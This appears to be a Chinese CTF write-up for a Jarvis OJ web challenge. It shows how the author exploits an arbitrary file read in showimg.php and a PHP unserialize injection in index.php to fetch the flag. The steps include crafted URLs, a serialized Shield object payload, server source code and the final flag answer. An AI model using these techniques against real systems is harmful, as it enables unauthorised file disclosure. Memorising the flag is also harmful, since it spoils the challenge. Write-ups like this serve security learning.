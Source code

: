 ## 描述

这里有个通向神盾局内部网络的秘密入口，你能通过漏洞发现神盾局的秘密吗？

题目入口：http://web.jarvisoj.com:32768/

## 题解

```html
<img src="showimg.php?img=c2hpZWxkLmpwZw==" width="100%"/>
```

图片请求的链接是 http://web.jarvisoj.com:32768/showimg.php?img=c2hpZWxkLmpwZw==

图片我保存到了 [shield.jpg](./assets/shield.jpg)

`strings` 和 `binwalk` 了下这个照片，没发现啥信息。打开 010 Editor 也没看出啥，估计这个图片不是关键点所在。

用 Base64 解密 `c2hpZWxkLmpwZw==` 得到 `shield.jpg`，似乎用处不大。

尝试伪造一个文件名 `shielde.jpg`，得到

```html
<br />
<b>Warning</b>:  readfile(shielde.jpg): failed to open stream: No such file or directory in <b>/opt/lampp/htdocs/showimg.php</b> on line <b>7</b><br />
```

似乎要伪造这个参数来搞事情？不会不会，看题解。

麻蛋。。。。。。。这不就可以任意文件读取了吗。。。

先看看这个 `showimg.php`，http://web.jarvisoj.com:32768/showimg.php?img=c2hvd2ltZy5waHA= ，得到

```php
<?php
	$f = $_GET['img'];
	if (!empty($f)) {
		$f = base64_decode($f);
		if (stripos($f,'..')===FALSE && stripos($f,'/')===FALSE && stripos($f,'\\')===FALSE
		&& stripos($f,'pctf')===FALSE) {
			readfile($f);
		} else {
			echo "File not found!";
		}
	}
?>
```

然后又不会了。。。继续看题解。。。麻蛋，居然有 `index.php` 这玩意，构造链接 http://web.jarvisoj.com:32768/showimg.php?img=aW5kZXgucGhw 然后得到

```php
<?php 
	require_once('shield.php');
	$x = new Shield();
	isset($_GET['class']) && $g = $_GET['class'];
	if (!empty($g)) {
		$x = unserialize($g);
	}
	echo $x->readfile();
?>
<img src="showimg.php?img=c2hpZWxkLmpwZw==" width="100%"/>
```

有个 `shield.php`，继续看下去 http://web.jarvisoj.com:32768/showimg.php?img=c2hpZWxkLnBocA==

```php
<?php
	//flag is in pctf.php
	class Shield {
		public $file;
		function __construct($filename = '') {
			$this -> file = $filename;
		}
		
		function readfile() {
			if (!empty($this->file) && stripos($this->file,'..')===FALSE  
			&& stripos($this->file,'/')===FALSE && stripos($this->file,'\\')==FALSE) {
				return @file_get_contents($this->file);
			}
		}
	}
?>
```

好的，看到注释了没？访问 http://web.jarvisoj.com:32768/showimg.php?img=cGN0Zi5waHA=

但是，居然不行！问题出在最开始的 `showimg.php` 里，那里有一个判断路径里不能出现 `pctf`。

查询一下官方文档 `stripos` 这个函数，没啥发现。看题解！发现自己漏关注了 `index.php` 这个文件。。

这个文件里有一个 `class` 的参数！可以赋值到 `x` 内，同时 `class` 是无过滤的！所以我们初始化一个 `filename` 为 `pctf.php` 的 `Shield`，然后序列化传到 `class` 参数。稳！

找个地方运行

```php
<?php
	//flag is in pctf.php
	class Shield {
		public $file;
		function __construct($filename = '') {
			$this -> file = $filename;
		}
	}
	$x = new Shield("pctf.php");
	echo serialize($x);
```

得到 `O:6:"Shield":1:{s:4:"file";s:8:"pctf.php";}`，所以构造链接 http://web.jarvisoj.com:32768/index.php?class=O:6:%22Shield%22:1:{s:4:%22file%22;s:8:%22pctf.php%22;} 便可以得到

```html
<?php 
	//Ture Flag : PCTF{W3lcome_To_Shi3ld_secret_Ar3a}
	//Fake flag:
	echo "FLAG: PCTF{I_4m_not_fl4g}"
?>
<img src="showimg.php?img=c2hpZWxkLmpwZw==" width="100%"/>
```

## 答案

PCTF{W3lcome_To_Shi3ld_secret_Ar3a}
